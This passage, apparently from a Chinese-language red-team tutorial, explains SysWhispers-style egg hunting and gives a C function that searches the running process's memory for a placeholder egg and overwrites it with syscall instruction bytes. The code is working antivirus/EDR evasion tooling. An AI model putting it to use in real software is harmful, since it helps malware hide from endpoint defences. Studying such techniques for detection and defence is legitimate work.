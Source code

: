 但实际上用这种方式会报错，因为只是提供了 syscall 的调用和返回的堆栈，但是没有释放，也就是说这里还并没有调用到syscall函数，我们需要将`w00tw00t`转换为`0x0f, 0x05, 0x90, 0x90, 0xC3, 0x90, 0xCC, 0xCC`，它转换为`syscall; nop; nop; ret; nop; int3; int3;`。所以后面需要使用 FindAndReplace 函数进行替换(代码参考https://klezvirus.github.io/RedTeaming/AV\_Evasion/NoSysWhisper/)：

```php
void FindAndReplace(unsigned char egg[], unsigned char replace[])
{

    ULONG64 startAddress = 0;
    ULONG64 size = 0;

    GetMainModuleInformation(&startAddress, &size);

    if (size <= 0) {
        printf("[-] Error detecting main module size");
        exit(1);
    }

    ULONG64 currentOffset = 0;

    unsigned char* current = (unsigned char*)malloc(8*sizeof(unsigned char*));
    size_t nBytesRead;

    printf("Starting search from: 0x%llu\n", (ULONG64)startAddress + currentOffset);

    while (currentOffset < size - 8)
    {
        currentOffset++;
        LPVOID currentAddress = (LPVOID)(startAddress + currentOffset);
        if(DEBUG > 0){
            printf("Searching at 0x%llu\n", (ULONG64)currentAddress);
        }
        if (!ReadProcessMemory((HANDLE)((int)-1), currentAddress, current, 8, &nBytesRead)) {
            printf("[-] Error reading from memory\n");
            exit(1);
        }
        if (nBytesRead != 8) {
            printf("[-] Error reading from memory\n");
            continue;
        }

        if(DEBUG > 0){
            for (int i = 0; i < nBytesRead; i++){
                printf("%02x ", current[i]);
            }
            printf("\n");
        }

        if (memcmp(egg, current, 8) == 0)
        {
            printf("Found at %llu\n", (ULONG64)currentAddress);
            WriteProcessMemory((HANDLE)((int)-1), currentAddress, replace, 8, &nBytesRead);
        }

    }
    printf("Ended search at:   0x%llu\n", (ULONG64)startAddress + currentOffset);
    free(current);
}
```
